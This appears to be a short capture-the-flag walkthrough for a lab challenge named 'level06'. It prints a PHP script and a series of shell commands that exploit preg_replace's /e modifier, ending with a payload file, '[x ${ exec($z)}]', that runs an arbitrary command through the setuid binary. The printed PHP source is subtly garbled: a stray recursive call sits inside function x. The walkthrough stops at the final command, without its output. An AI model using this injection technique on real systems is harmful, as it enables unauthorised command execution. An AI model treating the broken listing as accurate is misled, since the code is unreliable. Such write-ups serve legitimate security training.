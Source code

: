 1. `ls`
   ```
   level06  level06.php
   ```

2. `cat level06.php`
   ```php
   function y($m) {
      $m = preg_replace("/\./", " x ", $m);
      $m = preg_replace("/@/", " y", $m);
      return $m;
   }

   function x($y, $z) {
      $a = file_get_contents($y);
      $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
      $r = x($argv[1], $argv[2]);
      $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a);
      return $a;
   }
      
   $r = x($argv[1], $argv[2]);
   print $r;
   ```

3. `echo 'hello' > /tmp/payload && ./level06 /tmp/payload`
   ```bash
   hello
   ```

4. `echo '[x $z]' > /tmp/payload && ./level06 /tmp/payload 'id'`
   ```bash
   id
   ```

5. `echo '[x ${ exec($z)}]' > /tmp/payload && ./level06 /tmp/payload 'getflag'`
